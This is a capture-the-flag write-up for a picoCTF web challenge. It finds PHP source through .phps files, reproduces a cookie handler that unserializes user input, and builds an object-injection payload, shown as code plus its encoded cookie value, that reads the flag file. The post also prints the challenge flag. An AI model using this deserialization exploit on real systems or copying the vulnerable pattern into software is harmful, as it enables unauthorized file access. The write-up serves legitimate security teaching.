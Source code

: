 
---

Opening the link and poking around the source code for the `index.php` file we find nothing, and there are no other files that are being fetched.
- So, we need to perform some reconnaissance.

> Opening the `robots.txt` file, we see something interesting.

![](./screenshots/super-1.png)

Trying to open the `admin.phps` file, we get a 404 not found error.
- However, the extension `.phps` is used to display `php` source code, where the browser will display the file as source code.

> Since we know that we have the `index.php` file, lets see if `index.phps` will open.

![](./screenshots/super-2.png)

This code here checks the permissions of the user that logs in, and then sets a cookie using serialization and encoding.

> We see that there 2 files being referenced, the `cookie.php` file and the `authentication.php` file, so we open their source code using the `.phps` extension.

1. `authentication.phps`

![](./screenshots/super-3.png)

This file has the `access_log` class, and it can read the contents of a file.
- This might be useful if we can pass the name of the flag file into an `access_log` class, and make it read it for us.

2.  `cookie.phps`

```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

This code here checks for the permissions of the user, and then in the end, it decodes the value of the cookie that is set using the same serialization and encoding process in reverse found in the `index.phps` file.
- We can try to make the cookie value when it is decoded to execute PHP code, such as printing the content of the flag file. 

> So what I'll try to do is add the `login` cookie, and see what it does in the `cookie.php` page. The same can be done by sending to the `authentication.php` page as the `cookie.php` is required in the file, so its code is executed.

![](./screenshots/super-4.png)

I added gibberish, so we got the deserialization error.
- I'll now try to follow the encoding process specified so that when it is decoded, it actually does something.

Opening an online PHP testing environment, I added the following code to try and set it as the `login` cookie:

```php
<?php
print(urlencode(base64_encode(serialize("menuuu"))));
?>
```

After running this code, it produced this output:

```text
czo2OiJtZW51dXUiOw%3D%3D
```

Setting this value as the `login` cookie, we see that the code is in fact executed, and the output is displayed:

![](./screenshots/super-5.png)

Now what's left is to write code that reads the content of the `../flag` file as specified in the hint.

1. One thing to do is to create an object of the `access_log` class in the `authentication` file.
2. Once an object is created, the `__construct` method is immediately called, hence, we now have an object that has an attribute of whatever file name we specify (`../flag`).
3. Then in the `cookie` file, the code we enter is decoded in the `try` block, and then there are two lines that are called that will produce errors, since the `access_log` object we created cannot be called with the `is_admin()` or `is_guest()` functions.
4. Therefore, it will jump to the `except` block, and in this block, the initial decoded data of the `login` cookie is printed.
5. Since the `print` function is called, the `__toString` method is called as there is no way of printing an `access_log` object, so this default function is invoked.
6. The `__toString` function then prints the content of the `../flag` file, showing us the content of the flag.

To produce this exploit, we need the following payload that encodes and serializes an object of type `access_log` with the `log_file` variable set to `../flag`.

```php
<?php

class access_log{
 public $log_file="../flag"; 
}
 
print(urlencode(base64_encode(serialize(new access_log()))));
?>

```

This outputs:

```text
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

Now, we need to set the value of the `login` cookie to this, such that it executes this code.
- However, this needs to be sent to a file that can reference the `access_log` class and its functions, the only file that accepts this is the `authentication.php` file.

![](./screenshots/super-6.png)

The flag is output:

```
picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}
```

---
